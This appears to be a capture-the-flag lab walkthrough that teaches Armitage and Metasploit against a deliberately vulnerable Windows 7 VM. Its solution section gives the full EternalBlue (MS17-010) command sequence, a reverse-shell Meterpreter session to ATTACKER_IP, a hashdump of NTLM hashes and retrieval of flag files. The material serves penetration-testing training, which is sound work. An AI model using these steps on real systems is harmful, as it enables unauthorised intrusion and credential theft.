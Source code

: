 # Sample Exploit  

## Host Enumeration with Armitage  

Before letting you go off on your own, we're going to demonstrate how to exploit a sample Virtual Machine. First, we will execute a port scan within Armitage by navigating to:  

**Hosts -> Nmap Scan -> Quick Scan**  

After selecting "Quick Scan", a new option will pop up, prompting you to enter the IP Address range you would like to scan. You should enter the IP Address of the deployed Virtual Machine in this box.  

**Input menu:** "Enter Scan Range" with the IP Address `VICTIM_MACHINE`  

After pressing **"OK"**, and waiting a moment, you should see a new tab open up called **"nmap"** and a new machine display in the **"Workspace"** window. In the **"nmap"** tab, you will see the raw scan results.  

**Results from the Nmap port scan**  

Now that you have learned how to execute a basic port scan, try to execute various other scans against the target to gather more information.  

> **Hint:** A **Comprehensive Scan** will grab banners, enumerate software versions, OS versions, and much more!

---

## Exploitation with Armitage  

Next, we will demonstrate exploitation using Armitage. Our victim in this example is a **Windows 7** machine (specifically **Blue**), which is vulnerable to the **EternalBlue** exploit.  

To find this, navigate through:  

**Exploit -> Windows -> SMB**  

Here, you will see a list of available exploits.  

**Listing all the exploits within Armitage**  

To launch an exploit:  

1. Double-click on the exploit of choice, or  
2. Drag and drop the exploit onto the target host.  

A new window will open, where you can click **"Launch"** to execute the exploit.  

**Eternal Blue Exploit Module Information**  

After clicking **"Launch"**, a new **"Exploit"** tab will open. Armitage will automatically execute the required checks and attempt exploitation.  

In the case of **EternalBlue**, it runs a **standard check script** followed by the **exploit script** until it successfully gains a shell.  

By default, this exploit selects a **Bind shell**. Ensure that you carefully read the exploit options to determine whether a **Bind Shell** or a **Reverse Shell** is more suitable.  

**A Successful Exploitation Attempt from Armitage**  

Once you obtain a shell:  

- Right-click on the host and select **"Interact"**.  
- This will open a standard shell.  
- To escalate to a Meterpreter shell, run the `multi/manage/shell_to_meterpreter` module.  

**Compromised Host in Armitage**  

---

## Practice Time  

Now that you have learned how to exploit hosts using Armitage, it's time to practice hacking a virtual machine using **Metasploit** and **Armitage**.  

There are **multiple exploit paths** available. We encourage you to explore different approaches to understand **exploitation** and **post-exploitation** better.  

> **Reminder:** Armitage is simply a **GUI for Metasploit**. All exploits and modules are categorized identically.

---

## Solution  

If you encounter difficulties compromising the machine, follow this step-by-step guide using **Metasploit**.

### **Launching Metasploit and using EternalBlue!**  

```bash
root@attackbox$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
RHOST => VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

```bash
[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we have **SYSTEM-level** access, we can use the `hashdump` command to retrieve NTLM hashes:  

### **Running Hashdump**  

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::
meterpreter > 
```

Finally, retrieve the flags stored in the **user's home folders**.

### **Collecting our flags!**  

```bash
meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87<snip!>21081132744}
meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3<snip!>fc0be28e760} 
```

---

## Conclusion  

And that's it! You have successfully compromised **Ted’s PC** using **EternalBlue** in both **Armitage** and **Metasploit**.